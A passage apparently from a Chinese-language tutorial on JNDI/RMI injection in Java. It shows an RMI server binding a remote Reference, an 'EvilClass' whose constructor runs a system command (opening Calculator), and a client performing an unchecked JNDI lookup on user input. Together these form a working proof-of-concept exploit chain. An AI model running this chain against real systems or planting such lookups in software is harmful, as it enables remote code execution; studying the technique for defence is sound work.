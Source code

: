 ```java
            // className 远程加载时所使用的类名
						// classFactory 加载的class中需要实例化的类的名称
						// classFactoryLocation 提供classes数据的地址[可以是file/ftp/http等协议]
            Reference reference = new Reference("test","test", factoryUrl);
          
          	// 使用 ReferenceWrapper 对 Reference 对象进行封装。
            // 这是必要的，因为 Reference 本身不是一个远程对象，而 ReferenceWrapper 是
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
          
          	// 在 RMI 注册表中绑定名称为 "Foo" 的对象。
            // 任何尝试查找这个名称的客户端都会接收到封装的 Reference 对象
            registry.bind("calc", wrapper);

            System.err.println("Server ready, factoryUrl:" + factoryUrl);
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

**恶意类EvilClass 的定义为:**

``` java
// EvilClass.java
import java.lang.Runtime;

public class EvilClass{
    public EvilClass() throws Exception{
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

**客户端：**

```java
// JNDILookup.java
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDILookup {
    public static void main(String[] args) {
        if (args.length != 1) {
            System.out.println("Usage: java JNDILookup <name>");
            return;
        }
        String nameToLookup = args[0];

        try {
            // 创建一个初始的JNDI上下文
            InitialContext context = new InitialContext();

            // 尝试查找指定名称的JNDI资源
            Object resource = context.lookup(nameToLookup);

            // 打印结果
            System.out.println("Resource found: " + resource);

            // 关闭JNDI上下文
            context.close();
        } catch (NamingException e) {
            e.printStackTrace();
        }
```